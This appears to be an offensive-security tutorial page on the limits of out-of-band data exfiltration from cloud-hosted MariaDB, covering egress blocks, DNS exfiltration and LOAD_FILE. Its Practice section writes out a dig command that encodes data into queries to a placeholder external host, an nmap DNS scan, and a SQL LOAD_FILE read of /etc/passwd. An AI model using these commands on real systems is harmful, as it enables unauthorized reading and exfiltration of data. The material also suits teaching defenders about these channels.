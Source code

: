 ```yaml
---
title: Understanding Out-of-Band Exfiltration Limits
description: Explore the challenges and methods of out-of-band data exfiltration in
  cloud environments with MariaDB.
keywords:
- out-of-band exfiltration
- cloud security
- DNS exfiltration
- Load_File blockage
- egress restrictions
- cloud network architecture
- data breach
- SQL injection
---
```


# Out-of-Band Exfiltration Limits

## Context

In cloud environments, especially when dealing with database management systems such as MariaDB, understanding the limitations and challenges of out-of-band (OOB) data exfiltration can be crucial for orchestrating effective offensive operations. This technique involves transmitting data via indirect channels, evading standard network monitoring. Practitioners in offensive security must navigate these restrictions while capitalizing on any loopholes within cloud infrastructures like AWS, Google Cloud, or Azure. Assumed knowledge includes familiarity with OOB communication methods and cloud network architecture.

## Theory

### Egress Block in Cloud Environments

Cloud service providers implement stringent security measures to limit outbound traffic, or egress, from their environments. This is a preventative measure aimed at reducing unauthorized data exfiltration incidents. The process typically involves identifying all potential egress points, attempting data exfilitation through these channels, and assessing the efficacy of their blockage mechanisms. The restrictions hinder extraneous data flow while protecting sensitive information from a compromised instance.

### Out-of-Band (OOB) Communication Restrictions

OOB communication leverages alternative, less monitored channels such as DNS for data transmission. This model is particularly valuable in circumventing firewall rules that block conventional paths. However, cloud environments often place limitations on these channels, complicating unauthorized data exfiltration; restrictions may include the regulation of outbound DNS traffic or limiting acceptable query frequencies.

### Load_File Function Blockage

The Load_File function in SQL is designed to read files directly from the server, making it a potent tool for data exfiltration in less secure environments. However, cloud providers typically disable Load_File to curtail its potential misuse, rendering this method ineffective in many cloud scenarios. The lack of functionality forces attackers to consider alternative methods for extracting sensitive data.

### DNS Exfiltration Challenges

DNS exfiltration involves encoding data within DNS queries to bypass typical monitoring systems. While innovative, this method faces significant challenges in cloud settings, as DNS services may restrict query sizes or frequencies, making it difficult to transmit adequate amounts of data without detection. Understanding these limitations is essential for attempting data exfiltration via DNS in these environments.

### Cloud Network Security Measures

Cloud providers like AWS, Google Cloud, or Azure have robust security frameworks to prevent data breaches. These frameworks utilize a combination of traffic monitoring, anomaly detection, and strict egress controls to protect data integrity. These measures make it increasingly difficult for attackers to conduct successful exfiltration without triggering alerts or being blocked.

## Practice

### Bypass Egress Restrictions

To bypass egress restrictions, practitioners can attempt using DNS queries as an indirect channel for data exfiltration:

- **Scan for open DNS ports**:
    ```bash
    nmap -p 53 --script dns-brute <target>
    ```
    This command will check for open DNS ports which could be exploited for data exfiltration.

- **Attempt DNS exfiltration**:
    ```bash
    dig @<dns_server> <data>.example.com
    ```
    By encoding data within DNS queries, you can attempt to transmit it to an external server, assuming the DNS egress is inadequately secured.

Successful execution of these steps may allow data exfiltration by circumventing conventional egress restrictions through DNS queries.

### Test Load_File Functionality

Checking whether the Load_File function is operational in a cloud-based MariaDB instance can determine potential data exfiltration routes:

- **Test Load_File capability**:
    ```sql
    SELECT LOAD_FILE('/etc/passwd');
    ```
    This will ascertain whether the function is enabled and whether it can read sensitive server files for potential data leaks.

Testing this functionality reveals the practicality of using Load_File for data exfiltration, assuming it remains active and unrestricted.

## Tools

- **nmap**  
- **dig**  

These tools are crucial for conducting network reconnaissance and attempting DNS-based data exfiltration, respectively. They provide foundational capabilities for probing network configurations and understanding the scope of accessible services.